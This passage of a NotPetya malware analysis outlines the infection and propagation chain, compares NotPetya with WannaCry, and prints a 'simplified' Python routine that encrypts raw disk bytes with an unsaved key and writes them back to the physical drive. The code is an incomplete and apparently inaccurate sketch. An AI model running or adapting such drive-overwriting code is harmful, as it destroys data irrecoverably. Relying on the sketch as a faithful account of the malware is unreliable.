 ### Technical Analysis

```
NotPetya Attack Mechanism:
├── Initial Infection Vector
│   ├── MeDoc accounting software update
│   └── Supply chain compromise
├── Propagation Methods
│   ├── EternalBlue (MS17-010)
│   ├── EternalRomance (MS17-010)
│   ├── Mimikatz credential theft
│   ├── WMI remote execution
│   └── PsExec lateral movement
├── Encryption Process
│   ├── Encrypt Master File Table (MFT)
│   ├── Overwrite Master Boot Record (MBR)
│   └── Force system reboot
└── Payment Mechanism
    └── Hardcoded Bitcoin address (non-functional)
```

### Key Differences from WannaCry

```
NotPetya vs WannaCry:
┌─────────────────┬──────────────────┬──────────────────┐
│   Feature       │   WannaCry       │   NotPetya       │
├─────────────────┼──────────────────┼──────────────────┤
│ Primary Goal    │ Ransom           │ Destruction      │
│ Kill Switch     │ Yes (domain)     │ No               │
│ Decryption      │ Possible         │ Impossible       │
│ Initial Vector  │ Exploit scan     │ Supply chain     │
│ Propagation     │ EternalBlue only │ Multiple methods │
│ Target          │ Opportunistic    │ Targeted (UA)    │
└─────────────────┴──────────────────┴──────────────────┘
```

### Attack Code Analysis

```python
# NotPetya encryption routine (simplified)

import os
from Crypto.Cipher import AES
import hashlib

def encrypt_mft():
    """Encrypt Master File Table"""
    # Read MFT
    with open('\\\\.\\PhysicalDrive0', 'rb') as drive:
        mft = drive.read(1024 * 1024)  # Read first 1MB
    
    # Generate encryption key
    key = os.urandom(32)
    
    # Encrypt MFT
    cipher = AES.new(key, AES.MODE_CBC)
    encrypted_mft = cipher.encrypt(mft)
    
    # Overwrite MBR with custom bootloader
    overwrite_mbr()
    
    # Write encrypted MFT back
    with open('\\\\.\\PhysicalDrive0', 'wb') as drive:
        drive.write(encrypted_mft)
```